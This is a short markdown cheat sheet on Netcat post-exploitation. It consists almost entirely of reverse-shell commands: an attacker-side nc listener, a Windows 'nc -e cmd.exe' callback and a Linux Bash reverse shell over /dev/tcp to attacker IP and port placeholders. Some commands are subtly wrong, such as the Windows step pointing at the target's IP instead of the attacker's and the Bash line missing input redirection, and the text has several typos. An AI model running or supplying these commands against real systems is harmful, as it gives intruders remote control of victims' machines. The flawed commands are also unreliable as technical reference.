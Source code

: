 # Netcat Post Exploitation Techniques
This cheat sheet is for techniques using the Netcat utility during post-exploitation for data exfiltrarion, shell creation and more.
## Reverse Netcat Shell (WINDOWS)
1. On Attacker System, Start the Listener:
```
nc -lvvnp 443
```
2. On Target System, Cnnect to Listener on Attacker:
```
nc -nv (TARGET IP ADDRESS) 443 -e cmd.exe
```
## Reverse Shell (LINUX)
On a Linux system, wecan use Bash to start a reverse shell. First we start the listener on our attacker machine,
```
root@attackewr-machine:~$ nc -lvvnp (ATTACKER PORT)
```
Next, we send the Bash command to the attacker's socket, like so,
```
user@target-system:~$ bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/(ATTACKER PORT)
```
